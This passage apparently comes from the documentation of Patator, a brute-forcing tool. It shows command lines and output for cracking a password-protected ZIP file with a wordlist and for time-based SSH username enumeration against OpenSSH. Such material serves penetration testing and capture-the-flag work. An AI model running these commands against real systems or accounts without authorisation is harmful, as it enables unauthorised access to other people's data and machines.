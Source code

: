 * ZIP : Crack a password-protected ZIP file (older pkzip encryption used not to be supported in JtR)

```
$ unzip_pass zipfile=challenge1.zip password=FILE0 0=rockyou.dic -x ignore:code!=0 
10:54:29 patator    INFO - Starting Patator v0.5 (http://code.google.com/p/patator/) at 2012-06-29 10:54:29 PMT
10:54:29 patator    INFO - 
10:54:29 patator    INFO - code  size | candidate                          |   num | mesg
10:54:29 patator    INFO - ----------------------------------------------------------------------
10:54:30 patator    INFO - 0     82   | love                               |   387 | 0 [82] No errors detected in compressed data of challenge1.zip.
^C
10:54:31 patator    INFO - Hits/Done/Skip/Fail/Size: 1/1589/0/0/5000, Avg: 699 r/s, Time: 0h 0m 2s
10:54:31 patator    INFO - To resume execution, pass --resume 166,164,165,166,155,158,148,158,155,154
```

* SSH : Time-based user enumeration (using git version)

```
$ python -c "print('A'*5000)" > /tmp/As.txt
$ ssh_login host=10.0.0.1 user=FILE0 0=logins.txt password=@/tmp/As.txt -x ignore:time=0-3.5 -t 1
16:12:39 patator    INFO - Starting Patator v0.6-beta (http://code.google.com/p/patator/) at 2013-07-13 16:12 EST
16:12:39 patator    INFO -
16:12:39 patator    INFO - code  size   time | candidate                          |   num | mesg
16:12:39 patator    INFO - ----------------------------------------------------------------------
16:12:53 patator    INFO - 1     22   13.643 | root                               |     1 | Authentication failed.
16:12:57 patator    INFO - 1     22   15.404 | support                            |    18 | Authentication failed.
16:12:58 patator    INFO - 1     22   13.315 | testuser                           |    25 | Authentication failed.
16:13:06 patator    INFO - 1     22    7.377 | michael                            |    38 | Authentication failed.
...
```

Tested against openssh 6.2p2-1 default install on archlinux

